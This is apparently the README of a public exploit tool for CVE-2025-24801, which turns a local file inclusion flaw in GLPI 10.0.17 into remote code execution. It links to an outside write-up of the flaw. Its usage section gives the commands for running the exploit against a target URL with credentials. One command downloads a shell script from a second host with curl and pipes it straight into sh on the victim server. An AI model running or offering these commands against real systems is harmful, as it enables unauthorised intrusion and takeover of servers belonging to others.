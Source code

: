 # CVE-2025-24801

This exploit uses CVE-2025-24801 to get Remote Code Execution (RCE) via Local File Inclusion (LFI) at GLPI 10.0.17. [Proof of Concept (PoC)](https://blog.lexfo.fr/glpi-sql-to-rce.html) of this CVE with explaination to this vulnerability in GLPI.

## Usage
Example of usage.
```bash
python3 cve-2025-24801.py --url http://172.16.11.130:8080 --username glpi --password password
```

If you already executed this exploit and triggered RCE, you can use `--cmd ` parameter to just execute the command.
```bash
python3 cve-2025-24801.py --url http://172.16.11.130:8080 --username glpi --password password --cmd "curl http://10.0.10.235/shell.sh | sh"
```
